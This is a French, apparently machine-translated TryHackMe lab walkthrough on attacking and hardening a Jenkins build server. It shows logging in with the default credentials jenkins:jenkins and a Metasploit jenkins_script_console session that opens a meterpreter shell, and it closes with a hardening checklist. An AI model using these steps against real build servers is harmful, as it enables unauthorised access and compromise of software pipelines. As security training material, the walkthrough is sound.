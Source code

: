 Notre processus de construction est désormais protégé. Le prochain point d'attaque est le serveur de construction lui-même! Si un attaquant peut accéder ou contrôler notre serveur de build, cela les place dans une position privilégiée pour compromettre à la fois le pipeline et la build.

Construire des Basics Server

Avant de plonger dans l'attaque, discutons de la sécurité du serveur de construction de base. Le point le plus simple pour commencer est avec l'accès. Même dans les temps modernes, une attaque commune contre l'infrastructure de construction consiste à deviner les informations d'identification et à y accéder. Chaque fois que vous voyez un Jenkins serveur dans la nature, vous seriez surpris combien de fois `jenkins:jenkins` ferait l'affaire!

Pour sécuriser notre serveur de build, nous voulons restreindre l'accès à celui-ci. Vous constaterez souvent que plusieurs membres ont accès au même serveur de compilation. Dans ces cas, nous devons appliquer un accès granulaire pour nous assurer qu'un compromis d'un utilisateur ne conduirait pas à un compromis de toutes les versions. De plus, nous voulons limiter la probabilité qu'un utilisateur soit compromis en utilisant l'authentification multifacteur.

Exposé Build Server

Jetons un coup d'oeil au serveur de construction Jenkins dans le réseau à <http://jenkins.tryhackme.loc:8080/>. Vous devrez peut-être d'abord faire une autre mise à jour de votre `/etc/hosts` fichier avec l'adresse IP de la machine affichée dans votre diagramme de réseau. Vous devriez voir l'écran suivant:

![72cdd7eb8412a7dae0f5a29031c6d520](https://github.com/user-attachments/assets/e615b589-0ae8-4e48-92cb-74304317f325)

Tentons notre chance avec `jenkins:jenkins` et nous devrions être authentifiés!

![bc09936ce7f6b8bb843ca3306a31d4a2](https://github.com/user-attachments/assets/e170a86e-da7e-44cb-807b-dcc3a84e61b4)

Dans cette tâche, nous allons examiner l'utilisation de certains modules MSF pour attaquer le serveur de construction Jenkins. Sur l'AttackBox ou votre Kali VM, commencez Metasploit dans le terminal en utilisant `msfconsole`. Nous utiliserons le module jenkins_script_console de MSF:

**Terminal**

```
msf6 > use exploit/multi/http/jenkins_script_console
msf6 exploit(multi/http/jenkins_script_console) > show options

Module options (exploit/multi/http/jenkins_script_console):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   API_TOKEN                   no        The API token for the specified username
   PASSWORD                    no        The password for the specified username
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit
                                         .html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /jenkins/        yes       The path to the Jenkins-CI application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    no        The username to authenticate as
   VHOST                       no        HTTP server virtual host

   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0
                                       .0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.

Payload options (windows/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address

Exploit target:

   Id  Name
   --  ----
   0   Windows
```

Configurez votre module avec les valeurs correctes et exécutez pour un shell:

**Terminal**

```
msf6 exploit(multi/http/jenkins_script_console) > set target 1
target => 1
msf6 exploit(multi/http/jenkins_script_console) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf6 exploit(multi/http/jenkins_script_console) > set password jenkins
password => jenkins
smsf6 exploit(multi/http/jenkins_script_console) > set username jenkins
username => jenkins
msf6 exploit(multi/http/jenkins_script_console) > set RHOST jenkins.tryhackme.loc
RHOST => jenkins.tryhackme.loc
msf6 exploit(multi/http/jenkins_script_console) > set targeturi /
targeturi => /
msf6 exploit(multi/http/jenkins_script_console) > set rport 8080
rport => 8080
msf6 exploit(multi/http/jenkins_script_console) > run

[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: '887729f7a718bb81c8f00bff0df12b4bfb479ccd9cf91582f48107c457cb7d2e' (Jenkins-Crumb style v2)
[*] 52.50.36.84:8080 - Sending Linux stager...
[*] Command Stager progress - 100.00% done (751/751 bytes)
[*] Started bind TCP handler against 52.50.36.84:4444
[*] Sending stage (3045348 bytes) to 52.50.36.84
[*] Meterpreter session 1 opened (10.10.198.237:40199 -> 52.50.36.84:4444) at 2023-08-21 20:49:51 +0100

meterpreter > getuid
Server username: jenkins
```

Vous pouvez également chercher à effectuer une exploitation manuelle sur le Jenkins serveur. Cela impliquera d'accéder à la console de script et d'utiliser un script Groovy pour exécuter des commandes. N'hésitez pas à jouer!

Protéger le Build Server

Les étapes suivantes peuvent être suivies pour protéger à la fois votre serveur de construction et vos agents de construction:

1.  **Configuration de l'Agent de Construction**: Configurez les agents de construction pour communiquer uniquement avec le serveur de construction, en évitant les expositions externes.
2.  **Réseau Privé**: Placez des agents de construction dans un réseau privé, empêchant l'accès direct à Internet.
3.  **Pare-feu**: Utiliser des pare-feu pour restreindre les connexions entrantes au trafic nécessaire.
4.  **VPN**: Utilisez un VPN pour accéder au serveur de build et à ses agents en toute sécurité depuis des emplacements distants.
5.  **Authentification Based Token**: Utilisez des jetons d'agent de construction pour l'authentification, en ajoutant une couche de sécurité supplémentaire.
6.  **SSH Clés**: Pour SSHagents de construction basés sur - Utiliser sécurisé SSH clés d'authentification.
7.  **Surveillance Continue**: Surveillez régulièrement les activités et les journaux des agents de construction pour détecter tout comportement inhabituel.
8.  **Mises à jour Régulières**: Mettez à jour le serveur de build et les agents avec des correctifs de sécurité.
9.  **Audits de Sécurité**: Effectuer des audits de sécurité périodiques pour identifier et corriger les vulnérabilités.
10. **Supprimer les Défauts et Durcir la Configuration:** Assurez-vous de durcir votre serveur de construction et de supprimer toutes les informations d'identification par défaut et les configurations faibles.
